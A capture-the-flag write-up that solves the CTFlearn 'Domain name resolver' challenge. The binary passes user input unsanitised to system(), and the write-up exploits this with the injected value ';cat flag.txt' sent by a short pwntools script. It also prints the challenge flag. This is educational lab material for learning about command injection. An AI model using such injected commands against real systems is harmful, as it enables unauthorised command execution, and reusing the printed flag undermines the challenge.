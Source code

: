 # Domain name resolver
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Check IP of your favorite domain.

`nc rivit.dev 10004`

[FILE](https://github.com/Bread-Yolk/ctflearnwu/blob/219c3f872ee92e567d29e124b0c63dbaf5d44da4/Assets/Binex/Domain%20name%20resolver/task.tar.gz)

## HINT:
- NONE
## STEPS:
1. First, check the binary type and it's protections.

> 64 bit, not stripped

![image](https://user-images.githubusercontent.com/70703371/221830544-a849ccf1-34b5-4f8a-aa48-9abf06bc8ab6.png)


> ALL ENABLED

![image](https://user-images.githubusercontent.com/70703371/221830710-5053a7cd-7430-4a7e-90f7-52eb9be53892.png)


2. Let's decompile the binary then.

> main()

![image](https://user-images.githubusercontent.com/70703371/221830800-8d2ee7a0-47fb-46f0-bc87-a1fd9fcfa5f3.png)


3. Analyzing the main function we know that the input is not sanitized.

![image](https://user-images.githubusercontent.com/70703371/221831239-f6b386ba-265a-42f5-acc0-eb9789ad7236.png)


4. The program use the `system` call and use our input as it's argument/param.
5. Hence we can utilize it with input the strings `;cat flag.txt`.
6. This vuln commonly known as **command injection**.

> WHY WE NEED SEMICOLON?

```
The semicolon character (;) is commonly used in command injection attacks to concatenate multiple commands in a single line. 
In the context of this code, if an attacker inputs a semicolon followed by a command, the system() function will execute both 
the original command (generated using snprintf()), as well as the injected command concatenated by the semicolon.
```

7. Let's craft our script then.

> THE SCRIPT

```py
from pwn import *
import os
#64 bit
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

sh.sendlineafter(b':', b';cat flag.txt') 

#sh.recvlines()

sh.interactive()

```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/221832583-2798c7f2-42a2-49cd-b3bb-2778c2c13734.png)


7. Got the flag!

## FLAG

```
CTFlearn{1s_c0mm4nd_1nj3ct10n_4_th1ng?}
```
